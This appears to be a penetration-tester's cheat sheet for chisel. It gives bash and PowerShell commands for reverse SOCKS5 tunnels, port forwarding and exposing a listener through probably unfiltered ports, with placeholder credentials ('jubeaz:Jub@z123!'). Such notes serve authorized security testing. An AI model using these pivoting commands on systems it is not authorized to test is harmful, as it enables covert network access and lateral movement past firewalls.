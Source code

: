 # chisel-reverse

% chisel

#plateform/linux  #target/remote  #cat/PIVOT 

## server
```bash
chisel server -v -p <chisel_port> --reverse --socks5 
```

## server (powershell)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements

```powershell
Start-Job -Name chisel-server -ScriptBlock { Start-Process chisel.exe -ArgumentList @('server', '-p', '<chisel_port>',  '--reverse' '--socks5')} 
```

## protected server
```
chisel server -v -p <chisel_port> --reverse --socks5 --auth '<chisel_login|jubeaz>:<chisel_password|Jub@z123!>'
```

## client
```bash
chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```

## client (protected server)
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client <chisel_server_ip>:<chisel_port> R:<socks_port>:socks
```


## client (powershell)
```powershell
Start-Job -Name chisel-client -ScriptBlock { Start-Process chisel.exe -ArgumentList @('client','<chisel_server_ip>:<chisel_port>','R:<socks_port>:socks')}
```

## local port forwarding 

forward client port to server port (get the port of the client machine locally on serverside).

```
./chisel client -v <chisel_server_ip>:<chisel_port> R:<chisel_server_ip>:<chisel_server_f_port>:<chisel_client_ip|127.0.0.1>:<chisel_client_f_port>
```

## local port forwarding (protected server)
forward client port to server port (get the port of the client machine locally on serverside).

```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && chisel client -v <chisel_server_ip>:<chisel_port> R:<chisel_server_ip>:<chisel_server_f_port>:<chisel_client_ip|127.0.0.1>:<chisel_client_f_port>
```

## remote port forwarding
To expose server port remotely (useful to expose your listener)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
    
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
./chisel client -v <chisel_server_ip>:<chisel_port> <chisel_client_ip|0.0.0.0>:<chisel_client_f_port>:<chisel_server_ip>:<chisel_server_f_port>
```

## remote port forwarding (protected server)
To expose server port remotely (useful to expose your listener)
probable unfiltered ports:
    https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
    
forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
```
export AUTH='<chisel_login|jubeaz>:<chisel_password|Jub@z123!>' && ./chisel client -v <chisel_server_ip>:<chisel_port> <chisel_client_ip|0.0.0.0>:<chisel_client_f_port>:<chisel_server_ip>:<chisel_server_f_port>
```


